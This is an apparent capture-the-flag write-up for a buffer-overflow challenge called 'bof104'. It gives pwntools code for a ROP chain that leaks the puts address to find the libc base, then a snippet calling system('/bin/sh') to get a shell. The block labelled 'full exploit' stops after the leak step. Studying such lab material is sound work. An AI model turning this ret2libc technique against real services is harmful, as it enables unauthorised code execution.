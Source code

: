     int32_t main(int32_t argc, char** argv, char** envp)
    {
        setvbuf(stdout, nullptr, 2, 0);
        setvbuf(stdin, nullptr, 1, 0);
        bofme();
        return 0;
    }

Seems like a ROP playground, this time no evident system or other fancy things...
We need to leak first thing first the libc base address (we also have a libc.so.6), we are going to leak the puts address and then subtracting it from the offset of our libc...

Leak Script
```python
from pwn import *

elf = context.binary = ELF("bof104")
libc = ELF("libc.so.6")
#io = elf.process()
io = remote("bof104.sstf.site", 1337)

#Leak Libc

payload = b"A"* 40
payload += p64(0x0000000000401263) # pop rdi; ret
payload += p64(elf.got['puts']) # we pass the address of puts to puts
payload += p64(elf.plt['puts'])
payload += p64(elf.sym['main']) # We need to return to main

io.sendline(payload)
io.recvline()
leak_address = u64(io.recvline()[:-1].ljust(8, b"\x00"))
libc.address = leak_address - libc.sym['puts']
log.info(f"Libc Base @ {hex(libc.address)}")

io.interactive()
```
Now we only need to assemble our second payload that calls system("/bin/sh"), with pwntools magic we can do:

    bin_sh = next(libc.search(b"/bin/sh\x00"))
    rop = ROP(libc)
    rop.raw(rop.ret)
    rop.system(bin_sh)

So the full exploit is:

```python
from pwn import *

elf = context.binary = ELF("bof104")
libc = ELF("libc.so.6")
#io = elf.process()
io = remote("bof104.sstf.site", 1337)

#Leak Libc

payload = b"A"* 40
payload += p64(0x0000000000401263) # pop rdi; ret
payload += p64(elf.got['puts']) # we pass the address of puts to puts
payload += p64(elf.plt['puts'])
payload += p64(elf.sym['main']) # We need to return to main

io.sendline(payload)
io.recvline()
leak_address = u64(io.recvline()[:-1].ljust(8, b"\x00"))
```